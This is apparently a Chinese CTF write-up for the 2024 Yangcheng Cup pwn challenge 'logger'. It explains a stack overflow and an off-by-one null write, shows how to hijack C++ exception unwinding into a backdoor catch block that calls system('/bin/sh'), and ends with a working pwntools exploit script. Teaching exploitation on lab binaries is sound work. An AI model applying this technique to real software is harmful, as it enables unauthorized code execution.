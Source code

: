 ```yaml
---
title: 2024羊城杯logger
date: 2024-8-30
tags: 赛后诸葛亮
categories: ctf
---
```

# 前言
当时比赛我没看这题，在搞一个`houseofapple2`的`orw`，由于利用比较麻烦，以及我太菜没搞过类似`io的orw`，导致浪费太久时间。
火箭这次比赛爆上分，提供`TravelGraph`的思路同时砍下`logger和html`，tql！！
# 功能介绍
[题目附件](./pwn)
## main
![main](./main.png)
main函数很明确，一个菜单，两个功能`trace和warn`，由于ida的问题反汇编并不能看到c++的try和catch，下面这张图是汇编代码看到的try和catch
![asm_main_try](./asm_main_try.png)
看到warn函数是在try里面的
![asm_main_catch](./asm_main_catch.png)
然后是main函数对于异常的处理，没什么特别的，就是printf了一下，然后又会回到主循环中。
## warn
![warn_try](./warn_try.png)
可以看到在warn函数中有大的栈溢出，我们或许可以用这个栈溢出来劫持程序流。
问题在于程序也有检查，如果输入字节仅仅大于10就会抛出异常。(以及warn函数中并没有对于这个try的catch处理，所以这个异常会回溯到上一步，由main中的catch处理)
## trace
![trace](./trace.png)
在全局变量段读入数据，每次10字节。
可以发现图中绿色的一行上有一个强制在输入的字符串后面加上`'\x00'`，如果刚好输入0x10个字节则会导致不规范的越界写入`'\x00'`。

遍历的方式是在i属于[0,8]的情况下，如果*(char*)buf[0x10*i] == 0，认为这个未被使用过，就拿来给我们读0x10个字节

我们可以通过在`'Buffer Overflow'`前的一次输入选择输入十个字节，让`'Buffer Overflow'`的第一个字节被覆盖为0，就可以覆盖`'Buffer Overflow'`的前0x10个字节内容，不清楚有什么用，暂且按下不表。
![trace_overflow](./trace_overflow.png)
## c++异常机制
c++关于异常的三个关键词，try，catch，throw。
```c++
try {
    file.open("aaa.txt");
    // 可能出现错误的代码放在try里面
    if (!file.is_open()) { throw FileOpenException("Failed to open file");}
    // 如果出现异常，就throw，并交给对应的catch去处理
} catch (...) {
    // 捕获所有的异常
    std::cerr << "Unknown exception caught." << std::endl;
}
```
catch也可以和try不同时出现，比如某个函数的只有try，而将所有异常交给父函数处理
这一点之所以可以做到是因为c++异常处理会沿着调用链逐层回溯，直到找到catch对错误进行处理为止。(或者是找不到对应的catch，那就会导致程序异常终止)
```c++
void performTask() {
    try {
        riskyOperation(); // 调用可能会抛出异常的函数
    } catch (const std::exception& e) {
        // 捕获并处理来自 riskyOperation 的异常
    }
}

void riskyOperation() {
    try {
        throw std::runtime_error("An error occurred in riskyOperation");
    }
}
```
# 题目思路
由于c++的异常回溯会沿着函数调用链往回找，那我们刚好又可以通过栈溢出覆盖函数返回地址，从而影响函数调用链。
也就是说，我们可以让该异常处理机制误以为他是从另外的某个try块(成为tryA块)调用过来的，应该去tryA块去寻找对应的catch机制
好巧不巧，程序plt段有个system，跟进之后发现了作者留给我们的后门catch块
![backdoor_catch](./backdoor_catch.png)
其中有调用system函数，而system函数的参数正好是指向`'Buffer Overflow'`的指针。

那就思路很清晰了，我们只需通过trace函数覆盖`'Buffer Overflow'`为`'/bin/sh'`，然后覆盖warn函数返回地址为上图最上方的try地址。

不过还有一点值得注意，异常处理既然回到了父函数，那么也会恢复父函数的rbp。而如果能控制rbp的话，肯定还可以有一些别的操作，比如伪造变量，比如通过leaveret二次跳转等等。
# exp
```python
def trace(tosend: bytes):
    io.sendlineafter(b'****************', b'1')
    io.sendafter(b'details', tosend)
    io.sendlineafter(b'check', b'n')

def warn(tosend: bytes):
    io.sendlineafter(b'****************', b'2')
    io.sendafter(b'message', tosend)

for _ in range(7):
    trace(b'skip')
trace(b'a'*0x10)
trace(b'/bin/sh'.ljust(0xf, b'\0'))
payload = b'0'*0x70 + p64(0x404500) + p64(0x401BC4)
warn(payload)
io.interactive()
```


